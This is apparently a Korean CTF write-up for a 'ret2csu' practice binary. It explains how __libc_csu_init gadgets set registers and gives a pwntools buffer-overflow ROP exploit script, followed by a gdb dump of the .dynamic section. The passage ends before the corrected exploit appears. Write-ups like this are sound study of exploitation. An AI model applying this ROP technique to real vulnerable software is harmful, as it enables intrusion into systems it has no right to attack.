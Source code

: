 ```nasm
```
__libc_csu_init+90의 주소로 리턴하면, 6개의 인자를 pop 하고, r12+rbx*8을 call 해준다.

따라서 버퍼구조는 이러하겠다:
<table>
    <tr><td>dummy data : (0x28 bytes)</td></tr>
    <tr><td>ret addr for pwnme : csu+90</td></tr>
    <tr><td>rbx : 0</td></tr>
    <tr><td>rbp : ? (0)</td></tr>
    <tr><td>r12 : csu call addr : ret2win</td></tr>
    <tr><td>r13 : ? (0)</td></tr>
    <tr><td>r14 : ? (0)</td></tr>
    <tr><td>r15 : 0xdeadcafebabebeef</td></tr>
    <tr><td>ret addr for csu : csu+64 </td></tr>
</table>

exploit.py:
```python
from pwn import *

csu1 = 0x40089a
csu2 = 0x400880
ret2win = 0x4007b1
rdx = 0xdeadcafebabebeef

pl = 'a'*0x28
pl += p64(csu1) + p64(0) + p64(0x7ffdfba734e8) + p64(ret2win) + p64(0)*2 + p64(rdx) + p64(csu2)

p = process('./ret2csu')
p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
결과: libc 안의 r12+rbx*8 을 호출 하는부분에서 segfault가 발생한다.

이유는 호출하려는 함수의 포인터가 아닌 직접적인 주소를 넣었기 때문이다.

검색해보니, rdx 레지스터를 건드리지 않는 _init / _fini 함수 포인터를 사용해서 SIGSEGV를 피하고, __libc_csu_init+100의 ret으로 타깃 함수를 호출하는 방법이 있었다. [참고](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html)

이 _init과 _fini 포인터는 .dynamic 섹션에서 찾을수 있다.
```bash
gdb-peda$ x/20gx &_DYNAMIC
0x600e20:       0x0000000000000001      0x0000000000000001
0x600e30:       0x000000000000000c      0x0000000000400560
0x600e40:       0x000000000000000d      0x00000000004008b4
0x600e50:       0x0000000000000019      0x0000000000600e10
0x600e60:       0x000000000000001b      0x0000000000000008
0x600e70:       0x000000000000001a      0x0000000000600e18
0x600e80:       0x000000000000001c      0x0000000000000008
0x600e90:       0x000000006ffffef5      0x0000000000400298
0x600ea0:       0x0000000000000005      0x00000000004003c8
0x600eb0:       0x0000000000000006      0x00000000004002c0
```
여기서 _init 포인터의 주소는 0x600e38이다.

